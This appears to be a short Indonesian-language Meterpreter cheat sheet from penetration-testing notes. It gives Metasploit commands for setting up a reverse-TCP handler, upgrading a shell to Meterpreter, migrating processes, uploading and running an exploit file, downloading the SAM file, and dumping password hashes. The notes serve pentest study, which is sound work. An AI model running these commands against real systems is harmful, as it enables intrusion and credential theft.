 # Meterpreter


## Establish
Dari multihandler (sebelum eksploitasi) menggunakan Metasploit
```sh
search multi\handler

# set payload
set PAYLOAD windows/meterpreter/reverse_tcp

# set RHOSTS dan LHOSTS
set RHOSTS <ip>
set LHOST <ip>
```

Dari post exploit modul Metasploit

## Upgrade Shell Menjadi Meterpreter
Dilakukan post eksploitasi
```sh
# pindahkan shell saat ini menuju background
CTRL-Z

# gunakan shell_to_meterpreter pada post module
use post/multi/manage/shell_to_meterpreter

# cari dan upgrade session
sessions -l
set SESSION <nomor_session>
```

## Meterpreter Commands
```sh
# get user id and system info
getuid
sysinfo

# check whether it is a VM
checkvm

# search file
search -f *.exe

# check process and migrate to process (Privilege Escalation)
ps
migrate

# upload, download, and execute
upload file c:\\Users
download c:\\windows\\repair\\sam /tmp
execute -f c:\\windows\\temp\\exploit.exe

# change and quit shell
shell
CTRL+z

# dump hashes on computer
hashdump
credcollect

```

